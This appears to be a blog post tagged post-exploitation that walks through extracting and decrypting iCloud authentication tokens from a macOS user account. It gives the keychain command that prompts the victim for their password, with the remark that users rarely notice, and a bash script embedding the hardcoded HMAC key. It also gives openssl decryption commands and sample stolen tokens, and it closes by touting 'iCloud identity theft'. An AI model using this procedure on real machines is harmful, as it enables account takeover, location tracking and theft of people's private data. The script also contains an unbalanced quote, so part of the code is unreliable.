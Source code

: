 ```yaml
---
author: noncetonic
layout: post
title: iCloud Authentication Token acquisition on macOS
tags: [MacOS, Post-Exploitation]
---
```


## Foreward ##
While this is by no means new or groundbreaking information I've been meaning to document a process known to the forensic and law enforcement community and provided as part of point-and-click toolkits available to the general public from companies such as [Elcomsoft](https://www.elcomsoft.com/CATALOG/elcomsoft_2018_en.pdf). 

The aim of this post is to educate readers on the process by which Apple protects iCloud tokens and provide a procedure for manual acquisition of these tokens on modern versions of macOS.

>>> Another motivator for posting this article is to make up for the fact that back in mid 2017 I had started writing an article on dumping this tokens without interacting with the Keychain or requiring the user's password. The bug that allowed this has since been patched but is effective on early versions of 10.13 and prior.

>>> I've provided a ready-to-go script addressing this specific vulnerability which can found on [Github Gists](https://gist.github.com/n0ncetonic/d7fba855be0f5ca3ac9303764aa55438).

## Extraction on macOS
Extraction of iCloud Auth Tokens on macOS is a multi-step process and requires the iCloud Key stored in the targetted user's keychain. 

1.) Obtain the user's iCloud Key
2.) Generating the decryption key
3.) Decrypting the mmeTokenKey file

Let's get to it.

_Note:_ *If you're looking for a quick and easy automated tool to accomplishes this same procedure, I've linked to the (at time of writing) most updated and feature rich fork of `MMeTokenDecrypt` by `security-geeks` as `manwhoami` appears to have deleted their github account and consequentially the original codebase.*

## Obtaining iCloud Key from keychain
As the iCloud Key is stored encrypted within a user's keychain, extraction requires knowing the keychain password (almost always the same as a user's login password), or alternatively, utilizing the SecurityFramework to prompt the user for access to the keychain via the `security` command.

We will opt for the latter in this article to illustrate a technique which can be applied a large array of use cases.

### Obtaining iCloud Key using SecurityFramework
The following command will prompt the user to enter their password and returns the base64 encoded iCloud Key via STDOUT. Replace `UID` with the uid of the intended user.

>**Note:** Getting the uid a user is easiest via the `id -u [user]` command. If no user is specified, the current user's uid is returned.

`launchctl asuser UID security find-generic-password -ws 'iCloud'`

> **Note** The user will be prompted for their password **twice**. This is the standard behavior of macOS and most users will not notice the different permissions being requested. The first prompt grants **permission to access the key** named `iCloud` within a user's keychain while the second prompt grants **permission to read the value** of the `iCloud` key which has authorized access in the first prompt.

![iCloudKey_keychainPrompt](https://user-images.githubusercontent.com/29786827/44942972-55abce80-ad72-11e8-97c4-609116e7d14e.png)
![iCloudKey_keyPrompt](https://user-images.githubusercontent.com/29786827/44943059-1f6f4e80-ad74-11e8-80db-465c8439d566.png)

With the iCloud Key successfully obtained it is possible to generate the key used to decrypt the mmeTokenFile containing `mmeAuthToken` and other iCloud tokens.

## Generating the decryption key
iCloud Auth Tokens are encrypted using an HMAC-MD5 composed of an undocumented 44 character string used as the HMAC key and the base64 decoded iCloud Key as the HMAC message. The psuedo-code for generating the decryption key and a working implementation in BASH leveraging only tools available on a default macOS installation follow. Yay for living off the land.



> **Note** For the curious, `/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit` contains the subroutine `#KeychainAccountStorage _generateKeyFromData:` which uses the HMAC Key provided above when generating the decryption key.
> HMAC Key: `t9s"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}`

```
psuedo.code
// This psuedocode demonstrates the process of generating the iCloud Auth Token decryption key
hex(hmac.new(key, message, digest(md5)))
```

### BASH
```
#!/bin/bash -e
# gen_hmac-md5.sh
#
# Given a value for message, generates an HMAC-MD5 for mmeToken decryption
# HMAC key is hardcoded. Outputs the result in base64 and hex encoding
#
# n0ncetonic Copyright 2019 Blacksun Research Labs 
gen_hmac-md5() {
  message="$1"
  key="t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"
  
  hmac_md5=""

  hmac_md5=$(echo -n "$message" |base64 --decode| openssl dgst -md5 -hex -hmac "$key")
  
  echo "base64: $(base64 <<< ${hmac_md5})"
  echo "   hex: $(echo -n ${hmac_md5}"
}

gen_hmac-md5 $1
```

> **Note** The hex encoded decryption key is generally preferred for interoperability with other tools.

## Decrypting mmeAuthKey
Now that a valid decryption key has been generated the iCloud Auth Tokens can be obtained from the encrypted binary plist file stored in the `/Users/<USERNAME>/Library/Application Support/iCloud/Accounts/` directory. Files in this directory will either be symlinks with alphanumeric file names or standard files with filenames comprised of 9 digits. In the case of symlinks the email address tied to an iCloud DSID is disclosed as the filename, while the standard files disclose the `DSID` as the filename.

> **Note** The `DSID` is used in place of a username when authenticating using iCloud tokens. Making note of the `DSID` is recommended in case it is needed later.

Decrypting this file is done with the `openssl` command and results in xml structured Property List output containing the iCloud Auth Tokens. Ensure you replace `DSID` in this command with the user's actual `DSID`.

`openssl enc -d -aes-128-cbc -iv 0000000000000000 -K Hex_Encoded_Decryption_Key < "/Users/USERNAME/Library/Application Support/iCloud/Accounts/DSID" | plutil -extract 'tokens' xml1 -o - - `

>>> **Note** For output which lends itself better to scripting, copy-pasting, and readability, the decrypt command above can be changed to the command below.

`openssl enc -d -aes-128-cbc -iv 0000000000000000 -K a8f930a309a9188ca03877444ccaac6c < "/Users/user/Library/Application Support/iCloud/Accounts/8305714318 | plutil -extract 'tokens' xml1 -o - - |plutil -p -`

Resulting in output similar to below

```
{
	"cloudKitToken" => "iOIQ4Yq3J9l2AICrGYJt5pwl+k/sQJ2+FolAJNZ9ci++clFWhc1wx4/OrxK8u2Bexob0ZUC8K83guTCpNZonFpl9qSFRfaXyQ/2ga1hlfMMtYoj5MSElq2O4L9D02JCBmbmnXns3AIJusWW8AdxLNoVPZUaZdxd1CngEW3AS/2YltFHvhbhIyUkknMtHLUj5uoNJw6vfFumI10~~"
	"mapsToken" => "KW5Izw7FnUm/tbA81aTi4OLaZOzI0EQPmrajqC3W8ayFyyFTlWMCiEBWd8SnxeXJfx2HtOm2yNdmR01UFRAub2SnzPwmz7i4fiWI4h5VFd1ewVZR33QGBJBTXJqilvcC5Lz9huS1Kqqv8DxZeyWTm4hAVzQ0sqyuQG/yFLwjZydOIBICEAXUqdGSEnCdcyvFjlSd0ZDmZTFc10~~"
	"mmeAuthToken" => "Cw7Dzec+TpidWj26lmHGnCnIOQJeK3GR63+XCNT9E8CNrdJkooOgw6wtwRhJwcWRgynVnuFUGr2dYfycgnFxj5FGVAjh/8Y8yhUSn6VlDZcC7Kj+UTfnKsX5aW5GUki2iOttBNalYtiZLuVSub1MnghMpHY+Xtl6fEXSFi5A8culgXPsVbQdF4SGCPTzP9PQj+1qgk4iezr710=="
	"mmeBTMMInfiniteToken" => "SDgbvkIEolIutlD4rwlnuAkzmaZbOCc7f4hVYXWRzCqOsvQSQ6D5Vorc+p7UE7t08+tK7T3FVzSTiofE5oidM0jJCW7NaFPgKEFOVjK4aK/2ctcEQ/y1nv0eQcee/XJeI/mK/YBgmTsbIZ74+OUL9mr4t/IrQJffEBTR0FPFhoMhxwcP/kMCtEfD8egN4SUTkT6K8flQGqnT10~~"
	"mmeFMFAppToken" => "k+qpMM9hOUnUoIeamVsq+RYyBWxL0OSKFECvsGBu+I3loe3Wvl6dl8UeLeMQc6NJgrGjrYvwd1RsdpDiRFYNNm2mAI15GMTII6HJlzk9N6Ufla6rFDAQ8Yj861SPH7d1JcMiTXMZ/vKNpJqSOp26FRAwudozBTICYfb3RkLOicKydXaY5PTX6iCRPi17OqKsMbY3FhbZJTYJ10~~"
	"mmeFMIPToken" => "Ha0+FmWTnkjckMixOlKhvwNohQ1H9+QkVBovAVyVpGXGWiypbcIMByozSTtSWzb2CFEfWY3X4JkWAE35PLrG8yFEX1qYAMLTeoxeumVblCK30tBCgXv2RmB+CbrTSCKWyF7IR48eJ69c0gWWvMnhsDXLNvEUFiW0t6g6ktcQW8n/mS+ObqRw2SCYqS+1ZjMJKkmTJvd7iPF310~~"
}
```

## Closing

There you go; you've got a handful of tokens ready to be used with iCloud APIs like "FindMyFriends", "FindMyiPhone", "iPhotos" and more.

iCloud identity theft at the tips of your fingers means flattery has never been easier.

> "Imitation is the sincerest form of flattery"
*Charles Caleb Colton*


---

[security-geeks/MMeTokenDecrypt](https://github.com/security-geeks/MMeTokenDecrypt)
